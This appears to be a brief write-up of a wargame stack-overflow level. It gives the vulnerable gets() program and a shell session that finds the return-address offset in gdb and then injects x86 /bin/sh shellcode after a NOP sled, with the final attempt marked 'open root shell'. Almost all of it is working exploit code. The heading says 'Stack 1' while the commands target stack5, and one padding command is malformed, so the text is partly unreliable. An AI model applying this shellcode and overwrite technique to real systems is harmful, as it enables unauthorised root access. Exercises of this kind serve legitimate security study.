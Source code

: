 Stack 1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

<p> 
This task the same as stack 3, but we should to identify padding.
To find the padding we can just add bytes and test it
</p>

```shell
export SHELL_CODE="\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

python -c "print('a' + 76)" > ~/input5

gdb ./stack5
(gdb) break 11
(gdb) run < ~/input5
(gdb) x/48wx $esp # getting an address of next block after EIP 0xbffff630

# illegal instruction (missed)
python -c "print('A' * 76 + '30f6ffbf'.decode('hex') + '\x90' * 300 + '$SHELL_CODE')" | ./stack5

# illegal instruction (missed)
python -c "print('A' * 76 + '40f6ffbf'.decode('hex') + '\x90' * 300 + '$SHELL_CODE')" | ./stack5

# open root shell
python -c "print('A' * 76 + '50f6ffbf'.decode('hex') + '\x90' * 300 + '$SHELL_CODE')" | ./stack5
```
